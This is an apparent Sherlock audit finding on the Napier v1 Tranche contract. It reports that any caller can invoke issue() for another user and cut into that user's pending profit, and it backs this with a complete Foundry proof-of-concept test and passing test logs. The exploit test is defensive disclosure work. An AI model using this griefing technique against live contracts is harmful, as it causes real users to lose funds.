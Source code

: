 Dancing Steel Coyote

medium

# Grief attack on ````Tranche.issue()```` to make users losing partial profit

## Summary
Anyone can call ````Tranche.issue()```` to issue PT and YT for others, which causes a grief attack available to make users losing partial profit.

## Vulnerability Detail
The following coded PoC shows the details how this could happen:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {TestTranche} from "./Tranche.t.sol";
import "forge-std/console2.sol";

contract TrancheGriefAttack is TestTranche {
    address alice = address(0x11);
    address bob = address(0x22);
    uint256 constant INIT_UNDERLYING_AMOUNT = 100_000e6;
    function setUp() public virtual override {
        super.setUp();
        _approve(address(underlying), alice, address(tranche), type(uint256).max);
        _approve(address(underlying), bob, address(tranche), type(uint256).max);
    }

    function testTrancheGriefAttack() public {
        uint256 profit1 = _profitUnderGriefAttack();
        console2.log("Profit under attack:", profit1);
        uint256 profit2 = _profitUnderNormal();
        console2.log("Profit under normal:", profit2);
        assertTrue(profit1 < profit2);
        assertTrue((profit2 - profit1) >= 495e6);
    }

    function _profitUnderGriefAttack() internal returns(uint256) {
        vm.warp(_maturity - 90 days);

        // 1. alice issues some PT and YT
        deal(address(underlying), alice, INIT_UNDERLYING_AMOUNT, true);
        vm.prank(alice);
        tranche.issue(alice, INIT_UNDERLYING_AMOUNT);

        // 2. generating profit
        vm.warp(_maturity - 1);
        _simulateScaleIncrease();

        // 3. grief attack to force issuing PT and YT with alice's pending profit
        deal(address(underlying), bob, 1, true); // negligible underlying amount
        vm.prank(bob);
        tranche.issue(alice, 1);

        // 4. collect profit
        vm.warp(_maturity);
        assertEq(0, underlying.balanceOf(alice));
        vm.startPrank(alice);
        tranche.redeemWithYT(alice, alice, tranche.balanceOf(alice));
        vm.stopPrank();

        return underlying.balanceOf(alice) - INIT_UNDERLYING_AMOUNT;
    }

    function _profitUnderNormal() internal returns(uint256) {
        vm.warp(_maturity - 90 days);

        // 1. alice issues some PT and YT
        deal(address(underlying), alice, INIT_UNDERLYING_AMOUNT, true);
        vm.prank(alice);
        tranche.issue(alice, INIT_UNDERLYING_AMOUNT);

        // 2. generating profit
        vm.warp(_maturity - 1);
        _simulateScaleIncrease();

        // 3. grief attack to force issuing PT and YT with alice's pending profit
        /*
        deal(address(underlying), bob, 1, true); // negligible underlying amount
        vm.prank(bob);
        tranche.issue(alice, 1);
        */

        // 4. collect profit
        vm.warp(_maturity);
        assertEq(0, underlying.balanceOf(alice));
        vm.startPrank(alice);
        tranche.redeemWithYT(alice, alice, tranche.balanceOf(alice));
        vm.stopPrank();

        return underlying.balanceOf(alice) - INIT_UNDERLYING_AMOUNT;
    }
}
```

And the logs:
```solidity
2024-01-napier\napier-v1> forge test --match-test testTrancheGriefAttack -vv
[⠰] Compiling...
[⠔] Compiling 1 files with 0.8.19Compiler run successful!
[⠒] Compiling 1 files with 0.8.19
[⠑] Solc 0.8.19 finished in 15.23s

Running 1 test for test/unit/TrancheGriefAttack.t.sol:TrancheGriefAttack
[PASS] testTrancheGriefAttack() (gas: 1051716)
Logs:
  Profit under attack: 48004999994
  Profit under normal: 48499999994

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.40ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


## Impact
Users lose partial profit

## Code Snippet
https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/Tranche.sol#L180
## Tool used

Manual Review

## Recommendation
Hasn't see a good solution
